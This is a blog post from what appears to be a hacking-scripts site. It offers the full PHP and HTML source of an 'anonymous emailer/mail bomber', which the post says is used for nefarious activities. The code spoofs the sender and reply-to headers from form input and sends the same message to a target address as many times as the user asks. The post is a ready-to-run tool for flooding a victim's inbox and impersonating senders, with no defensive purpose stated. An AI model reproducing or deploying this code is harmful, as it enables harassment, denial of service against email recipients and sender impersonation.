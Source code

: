 ```yaml
---
id: 148
title: PHP Anonymous Emailer/Mail Bomber
author: admin
layout: post
guid: http://hackingscripts.com/?p=148
permalink: /php-anonymous-emailer/
categories:
  - PHP
tags:
  - Email bomber
  - PHP
---
```

Ok, so this isn&#8217;t really a hack script as such, but is also used for nefarious activities, and therefore is included here.

## PHP Anonymous Emailer/Mail Bomber Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;html&gt;
&lt;head&gt;
  &lt;title&gt;PHP Anonymous Emailer/Mail Bomber&lt;/title&gt;
&lt;body bgcolor="black" text="white"&gt;
&lt;form action="" method="post"&gt;
&lt;br&gt;&lt;font size="5" face="verdana"&gt;Sender&lt;/font&gt;&lt;br&gt;
&lt;br&gt;
   &lt;font size="2" face="verdana"&gt;&lt;b&gt;Name:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_name" type="text" value="" size="50"&gt;
    &lt;br&gt;&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Email Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_mail" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Reply Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="email_return" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
  &lt;/div&gt;
  &lt;font size="5" face="verdana"&gt;Recipient Details&lt;/font&gt;&lt;br&gt;&lt;br&gt;
  &lt;font size="2" face="verdana"&gt;&lt;b&gt;Recipient Email:&lt;/b&gt;&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="target" type="text" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Subject:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="subject" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Message:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;textarea name="message" cols="38" rows="5"&gt;&lt;/textarea&gt;
  &lt;br&gt;&lt;br&gt;&lt;font size="2" face="verdana"&gt;&lt;b&gt;Number Of Messages To Send&lt;/b&gt;&lt;/font&gt;&lt;p&gt;
    &lt;input name="messages" type="text" id="messages" value="" size="15"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;input type=submit&gt;
  &lt;/p&gt;
&lt;/form&gt;
   &lt;?php
       $header="From:$from_name&lt;$from_mail&gt;\n";
       $header .= "Reply-To:$email_return\n";
       $message2 = stripcslashes($message);
       for($x=1;$x&lt;$messages+1;$x++){
        mail($target,$subject,$message2,$header);
       }
   ?&gt;
</pre>